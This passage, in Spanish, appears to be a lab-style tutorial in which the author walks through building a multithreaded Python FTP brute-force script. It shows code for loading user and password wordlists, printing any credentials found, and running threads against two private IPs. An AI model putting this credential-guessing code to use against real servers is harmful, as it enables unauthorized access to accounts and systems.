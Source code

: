 Luego pensé: "Si no encuentro nada, quiero avisar al final", así que agregué un mensaje fuera de los bucles:

```python
print(f"Ataque terminado en {ftp_server}. No encontré credenciales válidas.")
```

#### **3. Leyendo los Archivos**

Necesitaba las listas de usuarios y contraseñas. Decidí leerlas de archivos porque es más práctico. Pensé: "Solo las leo una vez al inicio, no en cada hilo, para no desperdiciar tiempo". Usé `splitlines()` para que cada línea sea un elemento de la lista:

```python
with open('usuarios.txt', 'r') as uf:
    usernames = uf.read().splitlines()
with open('contraseñas.txt', 'r') as pf:
    passwords = pf.read().splitlines()
```

#### **4. Controlando la Salida con un Lock**

Como uso hilos, me preocupó que los `print` de los dos servidores se mezclaran en la consola y fuera ilegible. Pensé: "Voy a usar un `Lock` de `threading` para que solo un hilo imprima a la vez". Lo creé antes de los hilos y lo usé con `with` en cada `print`:

```python
print_lock = threading.Lock()
```

Y en la función, por ejemplo:

```python
with print_lock:
    print(f"¡Éxito! Con usuario: {username} y contraseña: {password} en {ftp_server}")
```

#### **5. Usando Hilos para los Dos Servidores**

Quería atacar dos servidores al mismo tiempo, así que creé un hilo para cada uno. Pensé: "Le paso a cada hilo la función `ataque_ftp` con la IP del servidor y las listas". Así lo hice:

```python
hilo1 = threading.Thread(target=ataque_ftp, args=('192.168.1.109', usernames, passwords))
hilo2 = threading.Thread(target=ataque_ftp, args=('192.168.1.101', usernames, passwords))
```

Luego los inicié con `start()` y usé `join()` para esperar a que terminen:

```python
hilo1.start()
hilo2.start()
hilo1.join()
hilo2.join()
```

---

### **Por Qué Me Gusta Mi Código**
